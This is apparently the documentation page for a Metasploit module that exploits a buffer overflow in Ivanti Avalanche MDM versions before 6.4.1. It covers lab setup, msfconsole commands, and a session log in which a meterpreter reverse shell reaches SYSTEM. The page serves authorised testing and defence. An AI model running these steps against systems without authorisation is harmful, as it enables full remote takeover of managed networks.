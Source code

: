 ## Vulnerable Application

Ivanti Avalanche powered by Wavelink is a mobile device management system. Network security
features allow you to manage wireless settings (including encryption and authentication),
and apply those settings on a schedule throughout the network. Software distribution features
allow you to schedule software distribution to specific devices from the Avalanche Console.
Avalanche also provides tools for managing alerts and reports.

This module exploits a buffer overflow condition in Ivanti Avalanche MDM versions before `v6.4.1`.
An attacker can send a specially crafted message to the Wavelink Avalanche Manager,
which could result in arbitrary code execution with the `NT/AUTHORITY SYSTEM` permissions.
This vulnerability occurs during the processing of 3/5/8/100/101/102 item data types.
The program tries to copy the item data using `qmemcopy` to a fixed size data buffer on stack.
Upon successfull exploitation the attacker gains full access to the target system.

The original analysis and the vulnerability discovery is done by the Tenable.
Check [here](https://www.tenable.com/security/research/tra-2023-27) for public advisory.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable versions of the MDM setup, first create a customer account at
[Ivanti](https://success.ivanti.com/customers/Community_RegStep1_Page?lp=register) (trial license is sufficient)
2. Navigate [here](https://www.wavelink.com/Download-Avalanche_Mobile-Device-Management-Software/)
and download any version **below** `v6.4.1`
3. Follow the installation steps.

After these steps, the MDM service should be accessible on port 1777.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/misc/ivanti_avalanche_mdm_bof`
3. Do: `set RHOST [IP]`
4. Do: `run`
5. You should get a session.

## Options

## Scenarios

```
msf6 > use exploit/windows/misc/ivanti_avalanche_mdm_bof
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.109:1777 - Connecting to target...
[*] 192.168.56.109:1777 - Sending payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:49967) at 2023-08-25 19:15:42 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```

